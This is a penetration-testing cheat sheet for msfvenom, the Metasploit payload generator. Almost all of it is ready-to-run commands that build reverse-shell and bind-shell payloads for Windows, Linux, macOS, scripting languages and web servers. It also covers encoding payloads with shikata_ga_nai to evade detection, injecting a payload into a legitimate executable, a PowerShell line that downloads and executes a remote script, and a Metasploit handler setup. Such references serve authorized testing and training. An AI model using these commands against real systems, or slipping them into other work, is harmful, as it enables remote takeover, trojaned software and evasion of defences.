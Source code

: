 ## msfvenom CheatSheet
---
- [msfvenom CheatSheet](#msfvenom-cheatsheet)
  * [List](#list)
  * [Show Payload Options](#show-payload-options)
  * [Commonly Used Parameters](#commonly-used-parameters)
  * [Windows Payloads](#windows-payloads)
    + [Reverse Shell](#reverse-shell)
    + [Bind Shell](#bind-shell)
    + [CMD Shell](#cmd-shell)
    + [Enoder](#enoder)
    + [Into Executable](#into-executable)
  * [Linux Payloads](#linux-payloads)
    + [Reverse Shell](#reverse-shell-1)
    + [Bind Shell](#bind-shell-1)
  * [MAC Payloads](#mac-payloads)
    + [Reverse Shell](#reverse-shell-2)
    + [Bind Shell](#bind-shell-2)
  * [Scripting Payloads](#scripting-payloads)
    + [Python Reverse Shell](#python-reverse-shell)
    + [Bash Reverse](#bash-reverse)
  * [Web Payloads](#web-payloads)
    + [PHP](#php)
      - [Reverse Shell](#reverse-shell-3)
    + [ASP](#asp)
      - [Reverse Shell](#reverse-shell-4)
    + [WAR](#war)
      - [Reverse Shell](#reverse-shell-5)
  * [Metasploit Handler](#metasploit-handler)
---

```markdown
***MsfVenom - a Metasploit standalone payload generator.***
Also a replacement for msfpayload and msfencode.
Usage: `/opt/metasploit-framework/bin/../embedded/framework/msfvenom [options] <var=val>`
Example: `/opt/metasploit-framework/bin/../embedded/framework/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe`

**Options:**
    -l, --list            <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all
    -p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
        --list-options               List --payload <value>'s standard, advanced and evasion options
    -f, --format          <format>   Output format (use --list formats to list)
    -e, --encoder         <encoder>  The encoder to use (use --list encoders to list)
        --service-name    <value>    The service name to use when generating a service binary
        --sec-name        <value>    The new section name to use when generating large Windows binaries. Default: random 4-character alpha string
        --smallest                   Generate the smallest possible payload using all available encoders
        --encrypt         <value>    The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)
        --encrypt-key     <value>    A key to be used for --encrypt
        --encrypt-iv      <value>    An initialization vector for --encrypt
    -a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)
        --platform        <platform> The platform for --payload (use --list platforms to list)
    -o, --out             <path>     Save the payload to a file
    -b, --bad-chars       <list>     Characters to avoid example: '\x00\xff'
    -n, --nopsled         <length>   Prepend a nopsled of [length] size on to the payload
        --pad-nops                   Use nopsled size specified by -n <length> as the total payload size, auto-prepending a nopsled of quantity (nops minus payload length)
    -s, --space           <length>   The maximum size of the resulting payload
        --encoder-space   <length>   The maximum size of the encoded payload (defaults to the -s value)
    -i, --iterations      <count>    The number of times to encode the payload
    -c, --add-code        <path>     Specify an additional win32 shellcode file to include
    -x, --template        <path>     Specify a custom executable file to use as a template
    -k, --keep                       Preserve the --template behaviour and inject the payload as a new thread
    -v, --var-name        <value>    Specify a custom variable name to use for certain output formats
    -t, --timeout         <second>   The number of seconds to wait when reading the payload from STDIN (default 30, 0 to disable)
    -h, --help                       Show this message
```


### List 
---
```bash
# msfvenom -l payloads
# msfvenom -l encoders
```
### Show Payload Options
---
```bash
# msfvenom -p PAYLOAD --list-options
```
### Commonly Used Parameters
---
```markdown
-b "\x00\x0a\x0d"                <== Don't use this bad characters
-f c                             <== Output in C Hex String
-e x86/shikata_ga_nai -i 5       <== Encodes
```
### Windows Payloads
---
#### Reverse Shell
```bash
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP) LPORT=(PORT) -f exe > FILE.exe
```
#### Bind Shell
```bash
# msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP) LPORT=(PORT) -f exe > FILE.exe
```
#### CMD Shell
```bash
# msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > FILE.exe
# msfvenom -a x86 --platform Windows -p windows/exec CMD="dir c:\" -f exe > FILE.exe
```
#### Enoder
---
```bash
# msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > FILE.exe
```
#### Into Executable
```bash
# msfvenom -p windows/shell_reverse_tcp LHOST=(IP) LPORT=(PORT) -x /usr/share/windows-binaries/FILE_EXE_ORIGINAL.exe -f exe -o FILE_Meterpreter.exe
# msfvenom -p windows/shell_reverse_tcp LHOST=(IP) LPORT=(PORT) -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/FILE_EXE_ORIGINAL.exe -o FILE_Meterpreter.exe
```
### Linux Payloads
---
#### Reverse Shell
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP) LPORT=(PORT) -f elf > FILE.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > FILE.elf
```
#### Bind Shell
---
```bash
# msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP) LPORT=(PORT) -f elf > FILE.elf
```
### MAC Payloads
---
#### Reverse Shell
```bash
# msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP) LPORT=(PORT) -f macho > FILE.macho
```
#### Bind Shell
```bash
# msfvenom -p osx/x86/shell_bind_tcp RHOST=(IP) LPORT=(PORT) -f macho > FILE.macho
```
### Scripting Payloads
---
#### Python Reverse Shell
```bash 
# msfvenom -p cmd/unix/reverse_python LHOST=(IP) LPORT=(PORT) -f raw > FILE.py
```
#### Bash Reverse
```bash
# msfvenom -p cmd/unix/reverse_bash LHOST=(IP) LPORT=(PORT) -f raw > FILE.sh
```
### Web Payloads
---
#### PHP 
##### Reverse Shell
```bash
# msfvenom -p php/meterpreter_reverse_tcp LHOST=(IP) LPORT=(PORT) -f raw > FILE.php
```
#### ASP 
##### Reverse Shell
```bash
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP) LPORT=(PORT) -f asp > FILE.asp
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP) LPORT=(PORT) -f aspx > FILE.aspx
```
#### WAR
##### Reverse Shell
```bash
# msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP) LPORT=(PORT) -f war > FILE.war
```

### Metasploit Handler
---
```
msf> set PAYLOAD (PAYLOAD)
msf> set LHOST (IP)
msf> set LPORT (PORT)
msf> set ExitOnSession false
msf> exploit -j -z
```






